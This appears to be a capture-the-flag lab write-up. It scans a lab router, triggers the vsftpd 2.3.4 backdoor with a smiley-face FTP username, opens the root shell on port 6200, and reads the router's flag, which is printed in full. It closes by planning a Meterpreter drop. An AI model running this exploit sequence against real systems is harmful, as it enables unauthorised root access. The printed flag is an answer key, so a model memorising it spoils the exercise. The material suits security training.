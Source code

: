PORT     STATE SERVICE    VERSION
21/tcp   open  ftp        vsftpd 2.3.4
179/tcp  open  tcpwrapped
2601/tcp open  quagga     Quagga routing software 1.2.4 (Derivative of GNU Zebra)
2605/tcp open  quagga     Quagga routing software 1.2.4 (Derivative of GNU Zebra)
Service Info: OS: Unix

clearly a router

vsftpd 2.3.4 has a backdoor in it that we can exploit

./busybox telnet 172.16.1.128 21
220 (vsFTPd 2.3.4)
USER user:)
331 Please specify the password.
PASS pass
^]e

./nmap -p- 172.16.1.128

Starting Nmap 7.11 ( https://nmap.org ) at 2019-10-28 01:04 UTC
Unable to find nmap-services!  Resorting to /etc/services
Cannot find nmap-payloads. UDP payloads are disabled.
Nmap scan report for hackback_router1_1.hackback_r_1_ext (172.16.1.128)
Host is up (0.00014s latency).
Not shown: 65530 closed ports
PORT     STATE SERVICE
21/tcp   open  ftp
179/tcp  open  bgp
2601/tcp open  zebra
2605/tcp open  bgpd
6200/tcp open  unknown

The back door is on port 6200 - looks like it's successful (nmap can close the backdoor however - needs reopened)

./busybox telnet 172.16.1.128 6200 
whoami;
root
: not found


Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1.72 seconds

cat /root/flag.txt;
{FLAG:Router1:c877f00ce2b886446395150589166dcd}
: not found



## Question 6: What flag is transmitted from flag_server to flag_client over UDP? {FLAG:UDP:XXX}

Meterpreter can act as a listener for msfconsole, this shell is unreliale and limited so lets drop a meterpeter here too for stability
